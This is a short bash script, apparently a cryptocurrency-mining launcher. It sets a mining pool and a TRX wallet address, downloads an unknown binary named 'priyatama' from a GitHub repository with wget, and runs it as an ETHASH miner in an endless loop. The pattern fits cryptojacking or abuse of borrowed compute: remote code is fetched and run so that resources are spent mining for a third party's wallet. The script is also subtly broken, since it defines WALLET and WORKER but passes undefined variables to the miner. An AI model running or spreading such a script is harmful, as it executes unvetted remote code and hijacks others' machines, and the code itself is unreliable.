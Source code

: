 #!/bin/bash
POOL=ethash.unmineable.com:3333
WALLET=TRX:TYWmD5VqkvA9AT4Pcfgqx5asB8WC2cgodP
WORKER=$(echo $(shuf -i 10-40 -n 1)-COLN#im8m-ybvt)
wget https://github.com/archernap/prem/raw/main/priyatama
chmod +x priyatama
while [ 1 ]; do
./priyatama --algo ETHASH --pool $POOL --user $TRX.$SAN --ethstratum ETHPROXY
sleep 5
done
sleep 999999999
